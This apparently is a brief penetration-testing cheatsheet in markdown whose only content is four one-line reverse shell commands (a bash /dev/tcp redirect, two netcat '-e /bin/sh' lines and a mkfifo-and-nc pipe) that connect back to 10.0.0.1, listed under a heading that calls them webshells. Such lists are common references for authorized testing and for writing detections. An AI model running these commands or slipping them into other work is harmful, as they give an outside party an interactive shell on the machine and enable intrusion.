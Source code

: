 # Pentest - cheatsheet

## Webshells

### Bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### netcat

```bash
nc -e /bin/sh 10.0.0.1 1234
nc.traditional -e /bin/sh 10.0.0.1 1234
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
